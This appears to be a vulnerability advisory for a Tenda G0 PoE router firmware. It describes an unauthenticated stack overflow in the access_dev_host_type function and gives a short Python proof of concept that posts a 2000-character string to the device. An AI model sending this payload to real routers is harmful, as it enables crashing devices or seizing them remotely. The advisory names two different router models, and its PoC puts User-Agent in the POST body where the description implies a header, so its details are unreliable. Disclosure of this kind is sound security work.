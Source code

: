 # Tenda G0-5g-PoE V2.0 access_dev_host_type
### Overview
vendor: Tenda

product: G0-5g-PoE V2.0

version: V16.01.1.8

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.1.8 were discovered to contain a stack overflow in the access_dev_host_type function. This device has an unauthorized RCE vulnerability. Attackers can obtain root privileges without logging in.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `s` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-5g-poev20-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
